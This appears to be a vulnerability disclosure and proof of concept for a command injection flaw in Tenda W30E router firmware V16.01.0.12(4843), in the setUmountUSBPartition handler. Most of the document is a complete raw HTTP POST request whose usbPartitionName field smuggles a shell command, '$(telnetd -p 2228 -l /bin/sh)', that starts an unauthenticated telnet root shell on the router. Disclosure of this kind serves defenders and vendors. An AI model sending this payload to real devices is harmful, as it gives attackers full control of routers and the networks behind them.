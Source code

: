 # Tenda W30E Command Injection

**Vender** ：Tenda

**Firmware version**:V16.01.0.12(4843)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda W30E V16.01.0.12(4843) devices. An HTTP request parameter is used in command string construction within the handler function of the setUmountUSBPartition route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)



When we send packets, the router will be shell

```
POST /goform/module?1701054608878 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 79
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/index.html?v=4843
Cookie: bLanguage=cn; sessionid=W30EV2.0:0.171.1:90e174

{"setUmountUSBPartition":{"usbPartitionName":"$(telnetd -p 2228 -l /bin/sh)$"}}


```





![poc](./poc.jpg)


